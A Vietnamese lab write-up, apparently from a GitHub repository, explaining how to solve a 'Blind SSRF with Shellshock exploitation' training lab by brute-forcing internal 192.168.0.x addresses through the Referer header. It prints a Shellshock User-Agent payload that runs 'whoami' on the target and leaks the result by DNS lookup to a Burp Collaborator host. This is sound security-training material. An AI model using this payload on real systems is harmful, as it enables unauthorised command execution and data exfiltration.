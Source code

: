 ## Blind SSRF with Shellshock exploitation

***Lab này sẽ hướng dẫn chúng ta tấn công shellshock mà không cần xác thực bằng cách sử đổi user-agent thành đoạn ngôn ngữ bash (description bảo vậy :v).***

Dưới đây là định nghĩa về 1 hàm shellshock thực thi hợp lệ

![](/imgs/SSRF/25.png?raw=true)

Ta sẽ bắt request của 1 post bất kì có **referer** và sửa **user-agent** lại thành đoạn lệnh tấn công shellshock.

```markdown
**User-Agent: () { :; }; /usr/bin/nslookup $(whoami).d2g3w36drwscrp50gyy9uuy4cvin6c.burpcollaborator.net**
```

Mục đích là để DNS tới Burp Collaborator + Referer sẽ sửa lại như ở description của lab để là 192.168.0.x:8080

Sau khi Brute từ 1->255 chúng ta sẽ Pool những request đã gửi tới, request sẽ có format domain là tên user ($(whoami)).host

![](/imgs/SSRF/26.png?raw=true)

Submit lên tên user là solve lab

![](/imgs/SSRF/27.png?raw=true)

### Tài liệu tham khảo
- [OSWAP Shellshock:](https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf)